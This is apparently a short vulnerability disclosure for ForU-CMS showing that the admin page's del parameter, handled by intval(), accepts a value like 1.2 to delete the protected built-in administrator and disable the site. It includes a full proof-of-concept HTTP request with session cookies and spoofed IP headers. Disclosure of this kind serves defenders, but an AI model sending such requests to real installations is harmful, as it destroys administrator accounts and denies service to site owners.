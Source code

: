 ForU-CMS logic flaw led to the deletion of underlying administrators

downlaod:https://gitee.com/sw1981/ForU-CMS

version:dev Official version

1. When deleting the underlying administrator, it prompts that it cannot be deleted.

![image](https://github.com/RCEraser/cve/assets/131632691/6730775c-fcf0-42bf-9045-115a675255e0)


2. Use burp to capture packets and change the del parameter value to 1.X to directly delete the underlying administrator account and bypass back-end restrictions.
```
POC
GET /admin/cms_admin.php?del=1.2 HTTP/1.1
Host: www.forucms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.forucms.com/admin/cms_admin.php
Cookie: cms[mail_size]=40; token_user=61646d696e2b31; PHPSESSID=7to756v150s0h9ib4a93t4tcr4; cms[url_back]=http%3A%2F%2Fwww.forucms.com%2Findex.php
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 1.1.1.1
X-Originating-IP: 1.1.1.1
X-Remote-IP: 1.1.1.1
X-Remote-Addr: 1.1.1.1
```

![image](https://github.com/RCEraser/cve/assets/131632691/7bffdfdb-dc44-4331-bf81-4bbc6339684f)

![image](https://github.com/RCEraser/cve/assets/131632691/91399f52-ca85-43e0-9807-b541ab130bdd)

3. After the underlying administrator is deleted, all functions become unavailable.
![image](https://github.com/RCEraser/cve/assets/131632691/9738f8d9-9899-4655-b89b-6010ed3ff12a)

4. Since we use the intval() function, we can construct 1.x at the del argument to bypass the backend restriction and remove the underlying administrator directly.
![image](https://github.com/RCEraser/cve/assets/131632691/9899ca04-e90a-493d-83cd-bfffe84d3a9b)

